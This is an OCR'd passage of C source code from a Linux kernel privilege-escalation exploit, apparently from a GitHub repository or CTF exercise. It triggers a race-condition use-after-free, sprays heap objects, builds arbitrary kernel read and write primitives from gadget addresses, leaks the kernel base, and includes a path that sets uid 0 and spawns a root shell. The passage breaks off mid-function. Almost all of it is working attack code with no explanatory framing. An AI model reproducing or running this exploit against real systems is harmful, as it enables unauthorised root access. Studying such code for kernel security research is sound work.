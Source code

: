 ```c
    pthread_join(th2, NULL);

    // UAF
    close(fd1);

    victim_fd = (long)spray_thread((void*)&t1_cpu);

    while (victim_fd == -1 || x != 0x5401) {
        puts("[+] Spraying on another CPU...");
        pthread_create(&th1, NULL, spray_thread, &t2_cpu);
        pthread_join(th1, (void*)&victim_fd);
        read(fd2, &x, sizeof(int));
    }

    printf("[+] Spray successful! victim_fd=%d\n", (int)victim_fd);
    return victim_fd;
}

long long AAR64(long long addr, int fd) {
    long long* p = (long long*)&buf;

    p[127] = mov_rax_ptr_rdx;
    p[3] = g_buf + 0x3f8 - 12*8;

    write(fd2, buf, 0x400);

    return ioctl(fd, 0, addr);
}

void AAW32(long long addr, unsigned int val, int fd) {
    long long* p = (long long*)&buf;

    p[127] = mov_ptr_rdx_ecx;
    p[3] = g_buf + 0x3f8 - 12*8;

    write(fd2, buf, 0x400);

    ioctl(fd, val, addr);
}

int main(int argc, char **argv) {
    // Too lazy to write separate program to spawn a shell
    if (argc == 2) {
        printf("[+] getuid() returns %d\n", geteuid());
        setuid(0);
        setgid(0);
        system("/bin/sh");
        return 0;
    }

    // Normal exploit path
    int victim_fd = trigger_race_condition_uaf();

    // Leak
    read(fd2, buf, 0x400);
    /*
    for (int i = 0; i < 0x400/8; i++) {
        printf("0x%llx\n", ((long long*)&buf)[i]);
    }
    */

    kbase = ((long long*)&buf)[73] - 0x332da0;
    g_buf = ((long long*)&buf)[7] - 0x38;
```